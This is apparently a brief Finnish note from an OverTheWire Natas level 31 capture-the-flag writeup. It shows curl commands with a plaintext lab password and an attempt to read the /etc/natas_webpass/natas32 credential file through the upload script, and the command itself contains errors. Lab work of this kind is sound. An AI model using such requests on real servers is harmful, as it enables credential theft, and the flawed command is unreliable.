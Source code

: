 ```
    <input type="submit" value="Upload" name="submit" class="btn">
</form> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```


Tämä on vain malli ja yksi osa: `$curl -u natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y "http://natas31.natas.labs.overthewire.org/index.pl" -F "submit=Upload" -F "file=@natas31.csv;type=text/csv"`

Sama lisää testausta ja tarkistuksena, että miksi ja näin:

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y "http://natas31.natas.labs.overthewire.org/index.pl?etc/natas_webpass/natas32" -F "file=ARVG" -F "file=/Downloads/book1.csv"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<!-- Bootstrap -->
<link href="bootstrap-3.3.6-dist/css/bootstrap.min.css" rel="stylesheet">
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas31", "pass": "<censored>" };</script>
<script src="sorttable.js"></script>
</head>
<script src="bootstrap-3.3.6-dist/js/bootstrap.min.js"></script>

<!-- morla/10111 -->
<style>
#content {
    width: 900px;
}
.btn-file {
    position: relative;
    overflow: hidden;
}
.btn-file input[type=file] {
    position: absolute;
    top: 0;
    right: 0;
    min-width: 100%;
    min-height: 100%;
    font-size: 100px;
    text-align: right;
    filter: alpha(opacity=0);
    opacity: 0;
    outline: none;
    background: white;
    cursor: inherit;
    display: block;
}

</style>


<h1>natas31</h1>
```